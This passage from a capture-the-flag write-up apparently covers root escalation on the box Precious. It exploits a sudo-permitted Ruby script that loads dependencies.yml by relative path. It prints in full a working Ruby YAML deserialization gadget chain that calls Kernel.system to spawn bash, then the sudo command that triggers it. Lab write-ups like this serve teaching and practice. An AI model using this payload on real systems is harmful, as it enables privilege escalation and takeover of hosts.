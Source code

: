 <br />
<br />
<br />

We can also notice that the file that is loaded is referenced with a **relative path**, so we can **create this file in our directory** and make the script load it, I will use the [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md):

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: bash
         method_id: :resolve
```

<br />

Now we can execute the **sudo command** from the directory where *dependencies.yml* is located and print the **flags**:

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

![](/assets/Precious/13.png)

<br />
<br />
<br />
